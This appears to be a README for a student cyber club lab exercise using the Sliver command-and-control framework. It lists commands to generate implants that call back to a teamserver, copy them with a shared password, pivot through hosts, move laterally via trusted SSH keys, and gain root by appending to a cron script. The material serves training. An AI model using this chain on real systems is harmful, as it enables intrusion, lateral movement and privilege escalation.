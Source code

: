 # Cyber Ops Unit Sliver Setup
All the commands and files needed to set up the exercise, reminder that this exercise will **not** work over the TAMU network (because we can't port forward without access to the routers) and will have to be done over hotspot, where everyone will (probably) be on the same subnet, meaning they can directly SSH to the first machine

Make sure to run `sudo systemctl start sliver.service` to get Sliver working

Commands used:\
1. Generate Sliver Implant: `generate --os linux --arch arm64 --name [Implant Name] --http [IP of Teamserver]`
2. Copy over to Intermediate server: `scp [Implant Name] aeverwooddesktop@[IP of Intermediate Server]:/home/aeverwooddesktop/Documents` (Password is 'password')
3. Run Implant: `./[Implant Name] &`
4. View sessions: `sessions`
5. Use the Implant: `use [session number]`
6. Create a pivot through that implant: `pivots tcp --lport [Pivot Port]`
7. Generate an implant for that pivot: `generate --os linux --arch arm64 --tcp-pivot [IP Address of Intermediate Server:[Pivot Port] --name [Pivot Implant Name]`
8. Upload that implant to his desktop with the upload command (More blendy than another SCP): `upload ./[Pivot Implant Name in Local Directory] ./[Pivot Implant Name in Remote Directory]`
9. Use our implant to scp it over to the Final Server: `execute -o scp [Pivot Implant Name] aeverwooddesktop@[IP of Final Server]:/home/aeverwooddesktop/Documents` (His desktop is trusted because of the scp keys so there is no need for a password)`
10. Navigate to the tmp directory and see what is in one of the root_cron_job files: `execute -o cat root_cron_job_1.sh`
11. Append our file path to one of the cron job scripts in order to privilage escalate: `execute -o "/home/aeverwood/Documents/uhoh" >> /tmp/root_cron_job_1.sh
